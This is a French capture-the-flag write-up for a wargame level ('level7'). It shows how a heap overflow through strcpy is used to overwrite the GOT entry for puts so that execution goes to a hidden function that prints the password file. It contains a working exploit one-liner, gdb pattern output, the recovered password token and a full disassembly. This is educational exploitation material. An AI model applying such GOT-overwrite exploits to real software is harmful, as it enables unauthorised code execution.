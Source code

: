 ## Démarches

- le `./level7` prend au moins 2 paramètres
    
    `./level7` 

    > Segmentation fault (core dumped)
    
    `./level7 1 1`
    
    > ~~


- `objdump -R level7`
    
    ```
        level7:     file format elf32-i386

        DYNAMIC RELOCATION RECORDS
        OFFSET   TYPE              VALUE
        08049904 R_386_GLOB_DAT    __gmon_start__
        08049914 R_386_JUMP_SLOT   printf
        08049918 R_386_JUMP_SLOT   fgets
        0804991c R_386_JUMP_SLOT   time
        08049920 R_386_JUMP_SLOT   strcpy
        08049924 R_386_JUMP_SLOT   malloc
        08049928 R_386_JUMP_SLOT   puts
        0804992c R_386_JUMP_SLOT   __gmon_start__
        08049930 R_386_JUMP_SLOT   __libc_start_main
        08049934 R_386_JUMP_SLOT   fopen
    ```

- Le programme utilise strcpy pour copier les arguments qu'on peut overflow
- Une fonction `m` non appelée par le *main* print le contenu du fichier *.pass* ouvert dans le *main*. 
- Avec gdb + peda, on peut déterminer que la taille du buffer est 20

  `pattern create`

  > 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
  
  `r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'`
  
  > Stopped reason: SIGSEGV

  `pattern search`

    ```
    Registers contain pattern buffer:
    EDX+0 found at offset: 20
    Pattern buffer found at:
    0x0804a018 : offset    0 - size  100 ([heap])
    0xbffff650 : offset   20 - size    4 ($sp + 0x4 [1 dwords])
    ```

- Comme dans les levels précédents, on utilise le jump d'une fonction utilisée (ici *puts* - donc après l'ouverture du fichier *.pass* - à l'adresse *08049928*) en y réécrivant l'adresse de destination (la fonction `m` à l'adresse *080484f4*)
  
- `./level7 $(python -c 'print("A"*20 + "\x28\x99\x04\x08"+" "+"\xf4\x84\x04\x08")')`
  > 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1602077241
<br>
----
## Ressources
- [[Computer Security: A Hands-on Approach] Chapter 4 - Buffer Overflow Attack](http://www.cis.syr.edu/~wedu/seed/Book/book_sample_buffer.pdf)


---

- `objdump -d level7`
```
    08048521 <main>:
        8048521:	55                   	push   %ebp
        8048522:	89 e5                	mov    %esp,%ebp
        8048524:	83 e4 f0             	and    $0xfffffff0,%esp
        8048527:	83 ec 20             	sub    $0x20,%esp
        804852a:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
        8048531:	e8 ba fe ff ff       	call   80483f0 <malloc@plt>
        8048536:	89 44 24 1c          	mov    %eax,0x1c(%esp)
        804853a:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        804853e:	c7 00 01 00 00 00    	movl   $0x1,(%eax)
        8048544:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
        804854b:	e8 a0 fe ff ff       	call   80483f0 <malloc@plt>
        8048550:	89 c2                	mov    %eax,%edx
        8048552:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        8048556:	89 50 04             	mov    %edx,0x4(%eax)
        8048559:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
        8048560:	e8 8b fe ff ff       	call   80483f0 <malloc@plt>
        8048565:	89 44 24 18          	mov    %eax,0x18(%esp)
        8048569:	8b 44 24 18          	mov    0x18(%esp),%eax
        804856d:	c7 00 02 00 00 00    	movl   $0x2,(%eax)
        8048573:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
        804857a:	e8 71 fe ff ff       	call   80483f0 <malloc@plt>
        804857f:	89 c2                	mov    %eax,%edx
        8048581:	8b 44 24 18          	mov    0x18(%esp),%eax
        8048585:	89 50 04             	mov    %edx,0x4(%eax)
        8048588:	8b 45 0c             	mov    0xc(%ebp),%eax
        804858b:	83 c0 04             	add    $0x4,%eax
        804858e:	8b 00                	mov    (%eax),%eax
        8048590:	89 c2                	mov    %eax,%edx
        8048592:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        8048596:	8b 40 04             	mov    0x4(%eax),%eax
        8048599:	89 54 24 04          	mov    %edx,0x4(%esp)
        804859d:	89 04 24             	mov    %eax,(%esp)
        80485a0:	e8 3b fe ff ff       	call   80483e0 <strcpy@plt>
        80485a5:	8b 45 0c             	mov    0xc(%ebp),%eax
        80485a8:	83 c0 08             	add    $0x8,%eax
        80485ab:	8b 00                	mov    (%eax),%eax
        80485ad:	89 c2                	mov    %eax,%edx
        80485af:	8b 44 24 18          	mov    0x18(%esp),%eax
        80485b3:	8b 40 04             	mov    0x4(%eax),%eax
        80485b6:	89 54 24 04          	mov    %edx,0x4(%esp)
        80485ba:	89 04 24             	mov    %eax,(%esp)
        80485bd:	e8 1e fe ff ff       	call   80483e0 <strcpy@plt>
        80485c2:	ba e9 86 04 08       	mov    $0x80486e9,%edx
        80485c7:	b8 eb 86 04 08       	mov    $0x80486eb,%eax
        80485cc:	89 54 24 04          	mov    %edx,0x4(%esp)
        80485d0:	89 04 24             	mov    %eax,(%esp)
        80485d3:	e8 58 fe ff ff       	call   8048430 <fopen@plt>
        80485d8:	89 44 24 08          	mov    %eax,0x8(%esp)
        80485dc:	c7 44 24 04 44 00 00 	movl   $0x44,0x4(%esp)
        80485e3:	00
        80485e4:	c7 04 24 60 99 04 08 	movl   $0x8049960,(%esp)
        80485eb:	e8 d0 fd ff ff       	call   80483c0 <fgets@plt>
        80485f0:	c7 04 24 03 87 04 08 	movl   $0x8048703,(%esp)
        80485f7:	e8 04 fe ff ff       	call   8048400 <puts@plt>
        80485fc:	b8 00 00 00 00       	mov    $0x0,%eax
        8048601:	c9                   	leave
        8048602:	c3                   	ret

    080484f4 <m>:
        80484f4:	55                   	push   %ebp
        80484f5:	89 e5                	mov    %esp,%ebp
        80484f7:	83 ec 18             	sub    $0x18,%esp
        80484fa:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
        8048501:	e8 ca fe ff ff       	call   80483d0 <time@plt>
        8048506:	ba e0 86 04 08       	mov    $0x80486e0,%edx
        804850b:	89 44 24 08          	mov    %eax,0x8(%esp)
        804850f:	c7 44 24 04 60 99 04 	movl   $0x8049960,0x4(%esp)
        8048516:	08
        8048517:	89 14 24             	mov    %edx,(%esp)
        804851a:	e8 91 fe ff ff       	call   80483b0 <printf@plt>
        804851f:	c9                   	leave
        8048520:	c3                   	ret
```

****
